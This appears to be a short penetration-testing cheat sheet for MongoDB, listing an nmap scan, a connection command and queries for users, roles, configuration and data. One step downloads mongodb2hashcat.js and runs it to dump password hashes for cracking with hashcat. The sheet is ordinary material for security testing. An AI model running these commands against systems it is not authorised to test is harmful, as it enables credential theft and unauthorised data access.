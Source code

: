 # MongoDB enumeration and exploitation
* [Initial enumeration](#initial-enumeration)
* [Connecting to a MongoDB database](#connecting-to-a-mongodb-database)
* [Enumerating a database](#enumerating-a-database)

## Initial enumeration
```bash
nmap -vv -p 27017,27018 -sT --script=+mongodb* <ip>
```

## Connecting to a MongoDB database
- Using mongo CLI:
```bash
mongo "mongodb://<username>@<ip>:27017/<database>" -p '<password>'
```

## Enumerating a database
- Get configuration:
```SQL
db.adminCommand({getParameter:"*"})
```
- Get current user and roles:
```SQL
db.runCommand({connectionStatus : 1})
```
- Get users:
```SQL
db.getUsers()
db.getUser("<username>")
```
- Get password hashes:
```bash
wget https://raw.githubusercontent.com/philsmd/mongodb2hashcat/main/mongodb2hashcat.js
mongo "mongodb://<username>@<ip>:27017/<database>" -p '<password>' --quiet mongodb2hashcat.js # Use 24100 and 24200 hashcat modes to crack them
```
- Show databases:
```SQL
show dbs
```
- Show current dabase:
```SQL
db
```
- Change database:
```SQL
use <database>
```
- Show collections:
```SQL
show collections
```
- Show data:
```SQL
db.<collection>.find()
db.<collection>.find().pretty()
```

